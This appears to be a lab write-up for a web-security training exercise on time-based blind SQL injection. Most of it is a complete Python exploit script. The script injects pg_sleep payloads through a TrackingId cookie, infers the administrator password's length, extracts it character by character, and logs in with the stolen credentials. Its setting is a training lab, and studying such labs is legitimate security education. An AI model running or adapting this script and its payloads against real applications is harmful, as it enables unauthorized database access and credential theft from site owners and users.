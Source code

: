 ```yaml
---
title: 'SQLi Lab 15'
description: 'Blind SQL injection for administrator password extraction using time-based techniques'
---
```



## Blind SQL injection with time delays and information retrieval

<div style="text-align: justify;">
  This lab demonstrates blind SQL injection where the application does not return query results or show errors. The vulnerability exists in a tracking cookie used for analytics. By injecting SQL that triggers time delays (via `pg_sleep`), it is possible to infer information about the database, such as the existence of a user and the length and value of their password.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to blind SQL injection.
- Inject time-delay queries to verify boolean conditions.
- Determine the existence of the administrator user.
- Identify the length of the administrator password using incremental time-delay tests.
- Extract the password character by character using `SUBSTRING()` and time delays.
- Use Burp Intruder for efficient character extraction.
- Log in with the recovered credentials to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import time
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Route through Burp
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}

# Charset for brute force (lowercase + digits)
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

def send_payload(url, tracking_id, session_cookie, payload, delay=5):
    """Send request with injected payload, return True if delay detected."""
    cookies = {
        "TrackingId": tracking_id + payload,
        "session": session_cookie
    }
    start = time.time()
    try:
        requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=delay+2)
    except requests.exceptions.ReadTimeout:
        # If timeout occurs, it's probably due to pg_sleep
        return True
    elapsed = time.time() - start
    return elapsed >= delay

def get_password_length(url, tracking_id, session_cookie, max_len=30):
    """Determine password length by testing increasing values."""
    print("[*] Determining password length...")
    for length in range(1, max_len+1):
        payload = (
            f"'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>{length}) "
            f"THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--"
        )
        if not send_payload(url, tracking_id, session_cookie, payload):
            print(f"[+] Password length found: {length}")
            return length
    print("[-] Failed to determine password length")
    sys.exit(1)

def extract_password(url, tracking_id, session_cookie, length):
    """Extract administrator password character by character."""
    print("[*] Extracting administrator password...")
    password = ""
    for i in range(1, length + 1):
        for c in CHARSET:
            payload = (
                f"'||(SELECT CASE WHEN (username='administrator' "
                f"AND SUBSTRING(password,{i},1)='{c}') "
                f"THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--"
            )
            if send_payload(url, tracking_id, session_cookie, payload):
                password += c
                print(f"[+] Found char {i}: {c} -> {password}")
                break
    return password

def login_and_check(url, username, password):
    """Login with stolen creds and check if lab is solved."""
    session = requests.Session()
    login_url = url.rstrip("/") + "/login"

    # Step 1: Fetch CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {"csrf": csrf_token, "username": username, "password": password}
    res = session.post(login_url, data=data, verify=False, proxies=proxies)

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in, but lab not solved yet.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)

    url = sys.argv[1]

    # Step 1: Grab initial cookies
    r = requests.get(url, verify=False, proxies=proxies)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to retrieve cookies")
        sys.exit(1)

    print(f"[*] Using TrackingId={tracking_id}, session={session_cookie}")

    # Step 2: Find password length
    length = get_password_length(url, tracking_id, session_cookie)

    # Step 3: Extract password
    password = extract_password(url, tracking_id, session_cookie, length)
    print(f"[+] Extracted password: {password}")

    # Step 4: Login and check if solved
    login_and_check(url, "administrator", password)

if __name__ == "__main__":
    main()
```